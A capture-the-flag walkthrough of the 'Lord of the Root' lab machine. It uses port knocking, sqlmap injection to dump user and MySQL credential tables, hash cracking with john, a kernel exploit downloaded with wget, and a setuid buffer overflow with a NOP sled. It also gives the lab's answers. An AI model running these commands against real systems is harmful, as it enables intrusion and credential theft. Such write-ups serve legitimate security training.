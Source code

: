 # LORD OF THE ROOT

## BASIC INFO
```
export IP=10.10.52.33

open port:
	22 OpenSSH 6.6.1p1
	1337 http
```

## CAN YOU ROOT THE BOX

> - **Hmmm, what method is used to reveal hidden ports?**
>> Port Knocking

> - **What port is the hidden service on?**
>> 1337

Navigating on the page (port 1337), found base64 string on any 404 page.\
`THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh`\
After decoding it becomes `Lzk3ODM0NTIxMC9pbmRleC5waHA= Closer!`\
Finally `/978345210/index.php`\
Have a look into it, and found that it was a login page.

Using sqlmap on the index.php we got above.\
`sqlmap -o -u http://$IP:1337/978345210/index.php --forms --dbs` found that password is injectable.\
With `sqlmap -o -u http://$IP:1337/978345210/index.php --forms -D Webapp -T User --dump` we got a list of username and password. Only frodo was able to be used to ssh into the machine. 
```
username:	frodo
password:	iwilltakethring
```

Let's try the other database, mysql database and only getting the User and Password column.\
`sqlmap -o -u http://$IP:1337/978345210/index.php --forms -D mysql -T user -C User,Password --dump`\
Now we got the user root with it's password hash.\
Crack the hash with john.\
```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

root: darkshadow
```

Now we ssh into the machine. From the nmap scan before we know that the kernel might be running on Ubuntu. Simple searchsploit and we found tons of exploit. We are targetting on the local one since we have access. After some tries we found that `39166.c` is working.

We first set up a http server with `python3 -m http.server` on our host machine, then on the remote machine we use `wget http://10.8.8.177:8000/39166.c` to download the file. Compile it with gcc an run. Now we are root.

Another exploit would be the lucky door. While enumerating the machine with `find / -perm +4000` found a few file that has the setuid bit set.
```
/SECRET/door1/file
/SECRET/door2/file
/SECRET/door3/file
```

Running them show that we need to provide a string to it. Assume it is buffer overflow. Note that the file that is vulnerable to overflow always changing. We can compare the file size and make a copy of the one with different size. Next we generate a payload with metasploit's pattern_create.rb with length of 200 and input it to the file. Inspecting on the dmesg shows the position where the seg fault occurs and using pattern_offset.rb we know that the offset is 171. Also we found that the ASLR is enabled on the binary. Research on how to bypass ASLR. Brute force it sounds like the easiest. We first find out the address that the binary jump to after we overwrite the EIP. So we are looking for tha address in ESP. Then we create a long list of NOP to work like a sled so if we hit any address in it it will be redirected to our shellcode. It is shown in the [bof.py](bof.py). Now run it and we are eventually root. *Note: If sometimes it succeeded but we are not root it may be the vulnerable binary has changed place. Just re-run it with the correct binary*

> - **Whats the method to exploit the system for privilege escalation called?**
>> Buffer overflow

> - **Who wrote the message in the flag message in the roots home directory?**
>> Gandalf

![badges](../../../badges/dianchia.png)
